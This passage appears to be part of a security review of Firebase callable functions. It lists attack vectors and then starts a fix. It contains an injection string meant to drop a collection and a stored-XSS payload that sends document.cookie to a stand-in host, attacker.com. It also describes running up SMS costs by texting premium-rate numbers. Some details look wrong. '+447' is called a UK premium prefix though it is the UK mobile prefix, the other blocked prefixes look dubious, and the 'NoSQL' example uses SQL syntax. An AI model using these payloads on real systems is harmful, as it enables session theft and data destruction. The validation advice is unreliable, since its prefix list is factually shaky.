 **Attack Vectors:**
1. **NoSQL Injection:**
```javascript
// If name is used in queries later
await functions.httpsCallable('findOrCreateCustomer')({
  name: "'; DROP COLLECTION customers; --",
  email: "attacker@example.com"
});
```

2. **XSS via Stored Data:**
```javascript
// Create customer with XSS payload
await functions.httpsCallable('findOrCreateCustomer')({
  name: "<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>",
  email: "attacker@example.com"
});
// When admin views customer list, script executes
```

3. **Phone Number Manipulation:**
```javascript
// Send SMS to international premium numbers
await functions.httpsCallable('sendSMSToCustomer')({
  phoneNumber: "+447XXXXXXXXXXX",  // UK premium rate
  message: "Test",
  customerId: "any"
});
// Each SMS costs significantly more
```

**Fix:**
```typescript
import validator from 'validator';
import DOMPurify from 'isomorphic-dompurify';

function sanitizeInput(input: any): any {
  if (typeof input === 'string') {
    // Remove HTML/scripts
    return DOMPurify.sanitize(input, { ALLOWED_TAGS: [] });
  }
  return input;
}

function validateEmail(email: string): void {
  if (!validator.isEmail(email)) {
    throw new HttpsError('invalid-argument', 'Invalid email format');
  }
}

function validatePhone(phone: string): void {
  // Only allow specific formats/countries
  if (!validator.isMobilePhone(phone, ['en-US', 'en-CA'])) {
    throw new HttpsError('invalid-argument', 'Invalid phone number');
  }
  
  // Block premium rate numbers
  const premiumPrefixes = ['+447', '+419', '+900'];
  if (premiumPrefixes.some(prefix => phone.startsWith(prefix))) {
    throw new HttpsError('invalid-argument', 'Premium rate numbers not allowed');
  }
}

// Use in functions
export const findOrCreateCustomer = onCall(async (req) => {
  const { email, name, phone } = req.data || {};
```